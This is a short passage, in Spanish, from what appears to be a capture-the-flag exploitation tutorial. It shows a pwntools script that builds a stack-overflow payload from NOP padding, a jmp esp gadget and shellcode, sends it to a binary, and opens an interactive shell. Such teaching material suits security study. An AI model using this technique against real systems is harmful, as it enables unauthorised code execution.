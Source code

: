 ```python

# Build payload
payload = flat(
    asm('nop') * padding,   # Podrian ser A, pero es mas correcto
    jmp_esp,
    #asm('nop') * 16,   #A veces se necesita un pequeño offset, que debe ser nops para que no se ejecute
    shellcode
)

# Exploit
io.sendlineafter(b':', payload)

# Get flag/shell
io.interactive()
```

Como vemos, debemos buscar la instrucción (en ensamblador) en el contexto del binario. Posteriormente, creamos un *payload* y lo pasamos al programa, para finalmente ponernos en modo interactivo para utilizar la *shell*.

Y ya estaríamos dentro!